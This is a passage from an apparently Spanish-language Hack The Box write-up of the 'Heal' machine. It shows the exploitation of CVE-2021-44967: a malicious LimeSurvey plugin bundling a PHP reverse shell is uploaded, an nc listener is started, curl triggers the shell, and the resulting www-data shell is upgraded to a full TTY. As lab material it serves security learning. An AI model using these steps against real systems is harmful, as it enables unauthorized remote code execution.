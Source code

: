 ```terminal
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

Una vez ajustado el archivo, comprimo ambos en un `zip`.

```terminal
/home/kali/Documents/htb/machines/heal:-$ zip exploit revshell.php config.xml
```

Voy a `Configuration` → `Plugins` → `Upload & Install`, selecciono el archivo comprimido y procedo a instalar y activar el plugin malicioso.

{% include embed/video.html src='assets/img/htb-writeup-heal/heal3_4.webm' types='webm' title='CVE-2021-44967 Exploitation' autoplay=true loop=true muted=true %}

Con el plugin activo, levanto un listener en mi máquina.

```terminal
/home/kali/Documents/htb/machines/heal:-$ nc -nvlp 4321
	listening on [any] 4321 ...
```

Y simplemente accedo al archivo PHP a través del navegador o con curl, apuntando a la ruta del plugin.

```terminal
/home/kali/Documents/htb/machines/heal:-$ curl http://take-survey.heal.htb/upload/plugins/3xplo1t/revshell.php

	... connect to [10.10.16.31] from (UNKNOWN) [10.10.11.46] 57290

/home/kali/Documents/htb/machines/heal:-$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
/home/kali/Documents/htb/machines/heal:-$ script /dev/null -c bash
www-data@heal:/$ ^Z

/home/kali/Documents/htb/machines/heal:-$ stty raw -echo;fg
[1]  + continued  nc -nvlp 4321
                               reset xterm

www-data@heal:/$ export TERM=xterm
www-data@heal:/$ export SHELL=bash
www-data@heal:/$ stty rows 42 columns 172
```

Una vez con un entorno más manejable, enumero los usuarios del sistema buscando entradas con shells válidas.
